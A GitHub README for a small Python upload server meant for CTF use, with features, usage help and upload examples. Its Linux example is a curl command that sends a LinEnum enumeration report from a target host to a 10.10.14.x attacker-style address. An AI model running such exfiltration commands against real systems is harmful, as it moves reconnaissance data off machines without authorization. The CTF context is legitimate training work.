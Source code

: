 ## TempUpload

A Upload Server For temporary use mostly helpful in ctfs etc.


## Features

- Works Fine on Both Windows and Linux.
- `localhost/list' => List all Files in Working Directory
- `localhost/upload' => Upload using Browser
- Only Uploading is implemented Directory listing is disabled 
- ['.py,'.ipynb'] are blacklisted can be changed in code.


## Uploading Using CLI

###Linux
- Using Curl
```shell
curl -F filename=@LinEnum_report 10.10.14.23:8080
```


###Windows Powershell
- Uploading via powershell depends on powershell version, check powershell.txt for more commands
- I would Strongly recommend using curl.exe `https://curl.se/download.html`
```shell
$Uri = 'http://localhost:8080/'
$Form = @{
    filename     = Get-Item -Path 'c:\Pictures\jdoe.png'
}
$Result = Invoke-WebRequest -Uri $Uri -Method Post -Form $Form
```

### Usage
```shell
$ python upserver.py -h
usage: upserver.py [-h] [-p PORT] [-d DIRECTORY]

A Simple http server to upload for temporary use

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port to use avoid using 80,443 for non root user
  -d DIRECTORY, --directory DIRECTORY
                        Working Directory

```


## Built With

* [Python3]

### License
